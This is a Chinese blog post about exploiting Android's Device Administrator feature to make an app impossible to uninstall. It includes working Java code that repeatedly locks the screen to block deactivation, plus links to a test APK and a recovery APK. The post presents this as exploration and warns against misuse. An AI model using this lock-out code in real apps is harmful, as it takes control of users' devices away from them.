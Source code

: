 # 编写一个无法卸载的App – 设备管理器漏洞

原文出处： [BQ Zhang（@2BAB）](http://2bab.me/2015/02/09/app-cannot-be-uninstalled/)

前两天某朋友发现手机有个app无法卸载，后知其因设备管理器激活导致，遂去尝试取消，但却在取消那刻卡机。反复折腾之后，只能重刷。后来他发了一篇关于设备管理器bug的文章给我，便有了如下一番折腾。

## 尝鲜

文章[《Android 学习 设备管理器勾选后不能再取消了》](http://androidmaster.iteye.com/blog/2035381)（作者：带个回家）大致意思是：

>继承 DeviceAdminReceiver 重写 onDisableRequested(Context context, Intent intent) 即可达到目的。
```java
@Override
public CharSequence onDisableRequested(Context context, Intent intent) {
    // 这里处理 不可编辑设备。
    Intent intent2 = new Intent(context, NoticeSetting.class);
    intent2.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent2);
    context.stopService(intent);// 是否可以停止
    return ""; // "这是一个可选的消息，警告有关禁止用户的请求";
    }
```

在此之前，我并没有接触过设备管理器的功能，参考了 API Guides 的 [Device Administration ](http://developer.android.com/guide/topics/admin/device-admin.html)，以及 [DeviceAdminReceiver](http://developer.android.com/reference/android/app/admin/DeviceAdminReceiver.html) 的 API 后，试着写了一个跟上述文章一样的 app，4.4 & 5.0均测试失败，可以正常取消激活。

## 再战

搜索，找到[《Android设备管理器漏洞》](http://blog.csdn.net/androidsecurity/article/details/9124747)（作者：Jack_Jia）另一篇讲解此问题的文章。文章提到：

>如果想在设备管理器列表中”隐身“，只要不注册 `android.app.action.DEVICE_ADMIN_ENABLED` 广播就行。
也就是不给 intent-filter 标签设置该 action。

```xml
<receiver
    android:name=".MyDeviceReceiver"
    android:description="@string/receiver_description"
    android:label="@string/app_name"
    android:permission="android.permission.BIND_DEVICE_ADMIN">
    <meta-data
        android:name="android.app.device_admin"
        android:resource="@xml/device_manager_policies" />
    <intent-filter>
 
    </intent-filter>
</receiver>
```

4.4 & 5.0测试失败，设备管理器无法激活（代码激活不会弹出，设备管理器又找不到）。

## 三战

继续搜索，发现百度安全实验室一篇文章[《Android设备管理器漏洞2》](http://blog.csdn.net/androidsecurity/article/details/39962571)。文章提到：

> 已激活设备管理器权限的手机木马利用该漏洞，可以在设置程序的设备管理器列表中隐藏，这样用户就无法通过正常途径取消该手机木马的设备管理器权限，从而达到无法卸载的目的。Android4.2版本以上系统已经修复该漏洞。    
…  
通过调用stopAppSwitch()方法，系统保证在进入取消设备管理器界面后，5秒内不会进行Activity的切换。   
…   
onDisableRequested函数满足以下条件即可：    
1、返回内容不能为空，这样才可以使设备管理器弹出取消激活设备管理器警示信息 Dialog。  
2、通过Activity切换的方式使设备管理器弹出的警示信息Dialog消失。使用户无法操作Dialog。
如果做到以上两点，程序即可成功阻止用户取消激活设备管理器操作。

故，只要在 onDisableRequested 方法中，让用户在取消激活时5s内无法操作界面，然后采取 Activity 切换的方法即可绕开取消激活的步骤。这里为了测试直观并且试一试设备管理器的 api，采用了百度提供的连续锁屏法。测试环境为5.0。 
``` java
public CharSequence onDisableRequested(Context context, Intent intent) {                                            
 
    //跳离当前询问是否取消激活的 dialog                                                                                          
    Intent outOfDialog = context.getPackageManager().getLaunchIntentForPackage("com.android.settings");             
    outOfDialog.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);                                                            
    context.startActivity(outOfDialog);                                                                             
 
    //调用设备管理器本身的功能，每 100ms 锁屏一次，用户即便解锁也会立即被锁，直至 7s 后                                                                
    final DevicePolicyManager dpm = (DevicePolicyManager) context.getSystemService(Context.DEVICE_POLICY_SERVICE);  
    dpm.lockNow();                                                                                                  
    new Thread(new Runnable() {                                                                                     
        @Override                                                                                                   
        public void run() {                                                                                         
            int i = 0;                                                                                              
            while (i < 70) {                                                                                        
                dpm.lockNow();                                                                                      
                try {                                                                                               
                    Thread.sleep(100);                                                                              
                    i++;                                                                                            
                } catch (InterruptedException e) {                                                                  
                    e.printStackTrace();                                                                            
                }                                                                                                   
            }                                                                                                       
        }                                                                                                           
    }).start();                                                                                                     
 
    return "";                                                                                                      
}
```
1. 安装后打开直接跳转激活界面：
![](http://jbcdn2.b0.upaiyun.com/2015/09/9e39d10a80403504129cf53954b61fc9.png)
2. 一旦激活则无法正常卸载
![](http://jbcdn2.b0.upaiyun.com/2015/09/f5d6aa211d336e325c883d00ef1a1471.png)

3. 进入设备管理器界面
![](http://jbcdn2.b0.upaiyun.com/2015/09/9bc579ca0686901c91a08025f1450144.png)
4. 尝试取消激活
![](http://jbcdn2.b0.upaiyun.com/2015/09/7078c356ebb3e4d486f4006875bd2789.png)
5. 强制进入锁屏
![](http://jbcdn2.b0.upaiyun.com/2015/09/55c0e66d9b36af97eb2651f93c00eac8.png)

至此，用户用普通方法无法卸载该app。测试使用某数字软件可以卸载，具体步骤：在数字软件的软件卸载功能中卸载Trick，此时提示取消激活，跳转到设备管理器界面取消激活，引发锁屏，强制锁屏7s结束后，切回数字软件，你会发现出现了取消激活的dialog，点击取消成功。

而文章开头提到的流氓软件，实则是跳转到一个所有按钮无效的自定义全屏界面（不是我这样跳到设置界面），使用数字软件无法解决问题。

## 总结

日后看到设备管理器激活申请定要小心三分，本文提及内容请勿不正当使用。

## 相关下载

[源码Gist](https://gist.github.com/2BAB/786513de79b7bfd82c3f)

[测试APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-DeviceAdminTrick.apk)，安装后激活则无法卸载。

[恢复APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-recovery.apk)，覆盖安装后可顺利取消激活。